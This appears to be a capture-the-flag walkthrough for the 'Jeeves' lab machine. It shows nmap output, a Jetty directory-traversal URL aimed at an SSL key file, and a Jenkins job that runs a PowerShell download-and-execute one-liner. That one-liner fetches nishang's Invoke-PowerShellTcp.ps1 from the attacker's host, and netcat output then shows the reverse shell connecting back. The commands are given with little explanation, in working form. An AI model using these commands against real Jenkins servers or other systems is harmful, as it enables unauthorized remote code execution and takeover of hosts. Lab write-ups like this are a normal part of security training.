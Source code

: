 ```
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-15 20:45:11
|_  start_date: 2019-09-15 20:43:36

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   33.18 ms 10.10.14.1
2   33.30 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 15:53:45 2019 -- 1 IP address (1 host up) scanned in 110.14 seconds

```


## 5000 : Jetty dir traversal.. useless


http://10.10.10.63:5000/vci/downloads/.\..\..\..\..\..\..\..\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\SSL\rui.key



Jetty is used by Jenkins
Find Jenkins directory: http://10.10.10.63:50000/askjeeves/

comment ???


## http://10.10.10.63:50000/askjeeves/

Prepare nishang...
Set a python -m SimpleHTTPServer

Create a new job in jenkins
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.32:8000/Invoke-PowerShellTcp.ps1')

Run job
Get shell
```
# nc -vlp 4444
listening on [any] 4444 ...
10.10.10.63: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\bob>
PS C:\Users\Administrator\.jenkins\workspace\bob> 
PS C:\Users\Administrator\.jenkins\workspace\bob> ls
PS C:\Users\Administrator\.jenkins\workspace\bob> whoami
jeeves\kohsuke
```
